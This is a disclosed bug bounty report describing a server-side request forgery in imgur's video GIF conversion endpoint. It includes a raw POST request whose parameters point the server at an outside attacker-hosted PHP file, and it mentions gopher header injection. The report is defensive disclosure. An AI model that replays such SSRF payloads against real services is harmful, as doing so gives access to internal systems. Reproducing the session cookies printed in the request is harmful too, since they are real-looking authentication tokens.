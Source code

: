 # SSRF in imgur video GIF conversion

## Report Details
- **Report ID**: 247680
- **URL**: https://hackerone.com/reports/247680
- **State**: Closed
- **Severity**: high
- **Submitted**: 2017-07-10T11:16:05.097Z
- **Disclosed**: 2020-08-13T10:15:10.018Z

## Reporter
- **Username**: mariuszdeepsec
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: imgur

## Vulnerability Information
Hi,

There was issue in -> https://hackerone.com/reports/115748

We have found similar one but in next steps

Affected request
============================
```
POST /vidgif/upload HTTP/1.1
Host: imgur.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://imgur.com/vidgif/video/between/56.72/9.71?url=http%3A%2F%2Fwww.onirikal.com%2Fvideos%2Fmp4%2Fbattle_games.mp4
Content-Length: 127
Cookie: SESSIONDATA=%7B%22sessionCount%22%3A3%2C%22sessionTime%22%3A1499684317408%7D; IMGURUIDJAFO=7450708ff93583b3772a3048e340856d59cef648c4dab74c825a83be56c807ab; _ga=GA1.2.1311247514.1499605938; _gid=GA1.2.2061092166.1499605938; __qca=P0-831392639-1499605938609; expPLAT51a=control; AZUSER=ue1-50873ccaac994527ac520cd62b5901e7; __gads=ID=1eb1b9c53a665ffd:T=1499605915:S=ALNI_MaUwqVKMDz-uAhHuqAQFc2_ajTK2Q; m_sort=viral; m_window=day; m_section=hot; __utma=247341212.1311247514.1499605938.1499607069.1499674066.2; __utmz=247341212.1499607069.1.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none); c_sort=newest; c_window=day; __atuvc=2%7C28; GCS=top; authautologin=17d1c9dc6b5e4b318c27ca4b85921a90%7EVJ3S8CJDeJgyKiUlrdYxGzQ99xkZiEox; _nc=1; f_sort=newest; f_section=favorites; retina=0; OX_plg=swf|shk|pm; UPSERVERID=upload.i-083e69b6391b5191e.production; __utmc=247341212; IMGURSESSION=5c493a419036f493aa69b0b40d8b1f28; __cfduid=d5d1746c7fcc97ff5c333cae83ce89d571499673731; showComments=1; c1069960587=1
Connection: close

source=http%3A%2F%2F192.166.218.53%2Fmalicious123.php&url=http%3A%2F%2F192.166.218.53%2Fmalicious123.php&start=56.72&stop=66.43
```


PoC
======================
HTTP Requests
-------------------------
{F201616}
FTP Requests
-------------------------
{F201614}


And most important like in the old vulnerable spot gopher where attacker have posibilities to inject stuff in headers with usse of %0a
-------------------------
{F201615}

Sorry for short description i assume u already know what SSRF is as u fixed previous vulnerable spot, if something is not clear feel free to ask
-------------------------------------------------

## Attachments
- ftp.png
- gopher.png
- http.png
